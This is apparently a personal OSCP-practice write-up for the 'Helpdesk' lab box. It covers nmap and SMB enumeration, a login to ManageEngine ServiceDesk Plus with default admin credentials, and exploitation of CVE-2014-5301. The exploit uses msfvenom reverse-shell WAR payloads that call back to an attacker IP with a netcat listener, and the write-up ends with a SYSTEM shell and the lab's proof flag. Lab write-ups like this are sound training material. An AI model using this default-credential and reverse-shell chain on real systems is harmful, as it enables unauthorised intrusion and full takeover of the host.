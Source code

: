 # Helpdesk (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nmap -v -Pn -p- -T4 helpdesk
...

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nmap -v -Pn -p 135,139,445,3389,8080 -A helpdesk
...

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
|_http-server-header: Apache-Coyote/1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-09T07:23:38-08:00
| smb2-time: 
|   date: 2024-03-09T15:23:38
|_  start_date: 2024-03-09T15:22:08
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:99:e5 (VMware)
| Names:
|   HELPDESK<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  HELPDESK<20>         Flags: <unique><active>
```

So some initial things to look at:

- Inspect SMB shares
- Look up Coyote JSP engine 1.1 on exploit-db
- Look up ManageEngine ServiceDesk Plus on exploit-db
- Enumerate the webserver, check it out on the browser

No shares visible through anonymous login:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ smbclient -L helpdesk -N  
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
```

No hits in exploit-db for "Coyote JSP engine 1.1"...


A lot of hits in exploit-db for "ManageEngine ServiceDesk"... We just need a version number.

Looking at the server in the browser we find our version (`7.6.0`):

![](./assets/manageengine-servicedesk-7.6.0.png)

I search the web for manageengine servicedesk default credentials:

![](./assets/default-creds.png)

Trying those in the web app gets us in:

![](./assets/in-as-admin.png)

There are a lot of exploit-db results for "manageengine servicedesk"... 

None of these explicitly include version 7.6.0 in their title, except for an SQLi... which we don't care about yet (maybe we come back to it), we want arbitrary file upload or remote code execution.

One of the results seems promising:

```
ManageEngine (Multiple Products) - (Authenticated) Arbitrary File Upload (Metasploit)                  | java/remote/35845.rb
```

I'll read the metasploit module code, but I won't use it (since my aim is to do the OSCP exam without Metasploit). From the code we learn that this module is for CVE-2014-5301:

- [Metasploit Module](https://www.exploit-db.com/exploits/35845)
- [NIST](https://nvd.nist.gov/vuln/detail/CVE-2014-5301)
- [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5301)

The first hit on google for "CVE-2014-5301 github" takes me to [this exploit code](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py).

Luckily this is one of the better documented exploits I've ever ran into:

```
# Use msfvenom to create a war file with meterpreter payload
# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war
#
# or with a reverse TCP shell
# msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war

# Before executing the script start the meterpreter handler
# meterpreter
#   use multi/handler
#   set payload java/meterpreter/reverse_tcp
#   set LHOST 192.168.56.108
#   run
#
# or start netcat listener on LPORT
# nc -nlvp 4444

# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
# HOST: target host
# PORT: target port
# USERNAME: a valid username for ManageEngine ServiceDesk Plus
# PASSWORD: the password for the user
# WARFILE: a war file containing the mallicious payload
```

So we do those things. First we generate the `.war` payload with `msfvenom`:

```
┌──(kali㉿kali)-[~/offsec/helpdesk/exploits]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.205 LPORT=80 -f war > shell.war
Payload size: 12807 bytes
Final size of war file: 12807 bytes
```

We set up a local listener with `nc`:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nc -lnvp 80
listening on [any] 80 ...
```

And we run the exploit:

```
┌──(kali㉿kali)-[~/offsec/helpdesk/exploits]
└─$ python CVE-2014-5301.py helpdesk 8080 administrator administrator shell.war                                                 
Trying http://helpdesk:8080/zaKK54iUQtCWfdz2hm8WDirsC58Iyk64/faqsbaxgh/qNBlUM0seFelD6P7
Trying http://helpdesk:8080/zaKK54iUQtCWfdz2hm8WDirsC58Iyk64/faqsbaxgh/C0Jq83OGtVH3dVSs
```

And we have shell!

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.176.43] 49186
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\ServiceDesk\bin>echo %username%
echo %username%
SYSTEM
```

We find our flag in the Administrator user's Desktop:

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users\Administrator\Desktop

01/18/2016  08:32 AM    <DIR>          .
01/18/2016  08:32 AM    <DIR>          ..
12/20/2009  05:03 AM    <DIR>          ITSHARED
12/20/2009  04:05 AM             1,535 ManageEngine ServiceDesk.lnk
03/09/2024  07:22 AM                34 proof.txt
               2 File(s)          1,569 bytes
               3 Dir(s)   6,297,985,024 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
e47853c179878d9a3006bb5adc5bbc46
```